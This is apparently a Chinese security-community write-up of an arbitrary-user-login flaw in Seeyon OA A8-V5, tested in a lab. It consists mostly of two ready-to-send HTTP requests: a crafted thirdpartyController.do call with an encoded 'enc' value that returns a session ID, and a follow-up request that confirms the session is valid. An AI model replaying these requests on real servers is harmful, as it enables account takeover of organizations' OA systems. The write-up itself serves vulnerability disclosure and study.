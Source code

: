 

# 致远 OA A8-V5 任意用户登录漏洞分析 - 先知社区

致远 OA A8-V5 任意用户登录漏洞分析

- - -

### 致远 OA A8-V5 任意用户登录漏洞分析

#### 漏洞环境

致远 A8 V7.0

#### 漏洞利用

接口 `/seeyon/thirdpartyController.do`

```bash
GET /seeyon/thirdpartyController.do?method=access&enc=TT5uZnR0YmhmL21qb2wvY2N0L3BxZm8nTj4uODM4NDE0MzEyNDM0NTg1OTI3OSdVPjo6Ojo6Ojo6Ojo6Ojo= HTTP/1.1
Host: 192.168.0.109
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

可以在响应包中得到一个`JSESSIONID`，在携带`JSESSIONID` 访问`/seeyon/online.do`接口进行验证。

```bash
GET /seeyon/online.do?method=showOnlineUser HTTP/1.1
Host: 192.168.0.103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=8C078E76C97C408221F7CD808AF28932; loginPageURL=; avatarImageUrl=-7273032013234748168
Connection: close
```
